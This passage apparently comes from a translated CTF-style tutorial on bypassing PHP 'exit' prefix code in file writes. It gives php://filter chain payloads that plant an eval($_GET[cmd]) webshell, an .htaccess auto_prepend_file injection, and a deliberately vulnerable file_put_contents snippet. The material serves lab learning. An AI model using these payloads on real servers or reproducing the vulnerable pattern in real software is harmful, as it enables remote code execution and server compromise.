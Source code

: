 **Filter nesting: **
If the environment is php7, you can also use the filter nesting method to do it
The process is to superimpose three filters and then compress them, then turn to lowercase, and then decompress them. After the execution of this process, some death code errors will be caused, so you can write them into the shell we want to write. The principle is very simple, which is to use the nesting method of filters to decompose and disrupt the death code between various transformations, and eventually become characters that cannot be recognized by PHP.

```php
Tested available Payloads:

?file=php://filter/zlib.deflate|string.tolower|zlib.inflate|/resource=a.php
POST DATA
content=php://filter/zlib.deflate|string.tolower|zlib.inflate|?><?php%0deval($_GET[cmd]);?>/resource=a.php
Or (never tried)
content=php/:|<?php%0Dphpinfo();?>/resource=test3.php
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210528000436209.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
**.htaccess pre-included utilization: **
.htaccess is a plain text file that stores some instructions related to Apache server configuration. It is similar to Apache's site configuration file, but it only works on the current directory, and is loaded only when the user accesses the directory. Through this file, you can realize web page 301 redirection, customize 404 error page, change file expansion name, prohibit directory lists, etc.
Setting the auto_prepend_file or auto_append_file configuration options through php_value contains some sensitive files. At the same time, a parsable php file is required in this directory or subdirectory to trigger it. At this time, no matter which file is accessed, flag.php will be parsed.
`php_value auto_prepend_file + absolute path of the file (default is the currently uploaded directory)`

```php
Payload:

?file=php:/
/filter/write=string.strip_tags/resource=.htaccess
POST DATA
content=?>php_value%20auto_prepend_file%20D:\phpstudy\phpstudy_x64\phpstudy_pro\WWW\H3rmesk1t\flag.php
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210528013348907.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

### The second situation

```php
<?php
if(isset($_GET['content'])){
    $content = $_GET['content'];
    file_put_contents($content,"<?php exit();".$content);
}else{
    highlight_file(__FILE__);
}
```
